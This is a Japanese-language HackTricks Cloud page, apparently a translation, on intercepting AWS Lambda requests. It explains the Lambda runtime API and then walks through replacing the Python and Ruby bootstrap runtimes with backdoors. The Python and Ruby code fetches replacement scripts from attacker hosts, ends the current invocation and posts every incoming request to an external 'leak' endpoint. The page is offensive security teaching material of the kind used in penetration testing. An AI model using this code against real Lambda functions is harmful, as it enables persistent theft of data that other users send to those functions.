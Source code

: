 # AWS - Lambdaリクエストの盗み出し

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* もしもあなたの**会社をHackTricksで宣伝したい**場合や、**PEASSの最新バージョンにアクセスしたい**場合、または**HackTricksをPDFでダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見しましょう
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローしましょう 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* 自分のハッキングテクニックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>

## はじめに <a href="#python-runtime" id="python-runtime"></a>

この攻撃は、実行中のLambdaに対してある種の**アクセス権限**があることを前提としています。\
また、重要な点として、**Lambdaの呼び出しは完全に分離されていないが、隔離されている**ことに注意してください。これらは同じ実行環境で実行される可能性がありますが、同時には実行されません。それを考慮に入れて、環境を分析してみましょう。

### 隔離

Lambdaの隔離は、次のcgroupsを使用しています：

<figure><img src="../../../../.gitbook/assets/image (1) (1) (4).png" alt=""><figcaption></figcaption></figure>

プレフィックスの「sandbox」は、一般的なコンテナエンジン（Docker、Podman、LXD、rkt）に一致しなかったため、プロプライエタリなコンテナエンジンである可能性があります。このプロプライエタリなコンテナエンジンは、[runC](https://github.com/opencontainers/runc)のようなオープンソースのコンテナランタイムを内部で使用している可能性があります。

### Lambdaの動作 <a href="#python-runtime" id="python-runtime"></a>

これはPython Lambdaのアーキテクチャのようです：

<figure><img src="../../../../.gitbook/assets/image (2) (6).png" alt=""><figcaption></figcaption></figure>

1. コンテナの外部にあるプロセス（initバイナリ内の「**slicer**」と呼ばれる）が、共有メモリを介して**init**プロセスに呼び出しイベントを送信します。
2. initプロセスは、ポート9001（ハードコード）でHTTPサーバーを設定し、いくつかのエンドポイントを公開します：
   1. /2018-06-01/runtime/invocation/**next** - 次の呼び出しイベントを取得します
   2. /2018-06-01/runtime/invocation/{invoke-id}/**response** - invokeのハンドラ応答を返します
   3. /2018-06-01/runtime/invocation/{invoke-id}/**error** - 実行エラーを返します
3. `bootstrap.py`では、次のループがinitプロセスに新しいイベントを問い合わせ、それを処理するためにユーザーの関数（ここではアップロードしたリクエストハンドラ）を呼び出します。

<figure><img src="../../../../.gitbook/assets/image (11) (4).png" alt=""><figcaption></figcaption></figure>

4. **ハンドラの応答は、次のエンドポイントのいずれかを介してinitプロセスに送信**されます：
   1. `/{invoke-id}/response` - ユーザーハンドラが正常に実行された場合
   2. `/{invoke-id}/error` - invokeの処理中に例外が発生した場合

## 技術の概要 <a href="#python-runtime" id="python-runtime"></a>

Lambda関数に送信されるデータを**傍受**するために、悪意のあるコードで**ブートストラップスクリプト**を置き換えることが可能です。\
他の言語で他のエンジンを使用している場合、その言語で書かれた別の**ブートストラップスクリプト**があるため、これは**Pythonだけでなく他の言語を使用した他のLambdaでも行うことができます**。

## Python <a href="#python-runtime" id="python-runtime"></a>

Lambdaから、**`/var/runtime/bootstrap.py`**をダウンロードします（または**独自のLambdaを起動**して取得します）そして、Lambdaに送信されるすべてのデータを漏洩させるバックドアを追加します。以下のような数行を追加するだけです：

<figure><img src="../../../../.gitbook/assets/image (2) (1) (3).png" alt=""><figcaption></figcaption></figure>

### ランタイムの置換

新しい**`boostrap.py`**を作成したので、それを**ダウンロード**し、現在のLambdaの**呼び出し**を**終了**させ、それを実行して正規のものと**置き換える**ことができます。
```python
import os
from urllib import request

# Download bootstrap.py from your server
r = request.urlopen('http://attacker.com/bootstrap.py')
with open('/tmp/bootstrap.py', 'w') as f:
f.write(r.read().decode('utf-8'))

# Get invocation ID and end it
req = request.urlopen("http://127.0.0.1:9001/2018-06-01/runtime/invocation/next")
inv_id = req.headers["Lambda-Runtime-Aws-Request-Id"]
req = request.Request(f"http://127.0.0.1:9001/2018-06-01/runtime/invocation/{inv_id}/response", data=b"null")
req.add_header("Content-Type", "application/x-www-form-urlencoded")
request.urlopen(req)

# Start your bootstrap.py
os.system("python3 /tmp/bootstrap.py")
```
または、[twist\_runtime.py](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/twist\_runtime.py)を使用することもできます。これにより、以前と同様に呼び出しを終了し、新しいブートストラップを実行して情報を外部に流出させることができます。

{% hint style="warning" %}
Lambda関数が5〜15分間使用されない場合、シャットダウンされ、次回呼び出される際にすべての変更が失われます。
{% endhint %}

## Rubyランタイム <a href="#ruby-runtime" id="ruby-runtime"></a>

Rubyでは、バックドアを追加したいファイルは**`/var/runtime/lib/runtime.rb`**ファイルです（システムから取得するか、独自のLambdaを実行してください）。

バックドアの追加は、Pythonバージョンと同様に簡単です：
```ruby
# Add a require at the beggining
require 'json'
require 'net/http'
[...]
# In the loop where the invocation is treated
begin
context = lambdaContext.new(raw_request)
uri = URI('http://attacker:80/leak')
Net::HTTP.post(uri,JSON.generate(request))
[...]
```
次に、Pythonバージョンで行ったことを変更して実行するだけです：

* **バックドアをディレクトリにダウンロードします**
* `/var/runtime/lib/*` をバックドアがあるディレクトリに**シンボリックリンク**します
* 現在のLambda呼び出しを終了します
```ruby
# You can get a ruby shell with 'irb' or run from shell with ruby -e "..."

require 'net/http'

# Downloading new script
uri = URI("http://attacker/rumtime.rb")
r = Net::HTTP.get_response(uri)
File.write("/tmp/rumtime.rb", r.body)

# Create symlink
ln -s /var/runtime/lib/* /tmp

# Terminate currrent invocation
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/next')
req = Net::HTTP.get_response(uri)
inv_id = req.header['Lambda-Runtime-Aws-Request-Id']
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/'+inv_id+'/response')
Net::HTTP.post(uri, 'null')
```
## 参考文献

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **HackTricksで会社を宣伝したい**場合や、**最新バージョンのPEASSを入手したい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見する
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)をフォローする。
* **ハッキングのトリックを共有するには、** [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>
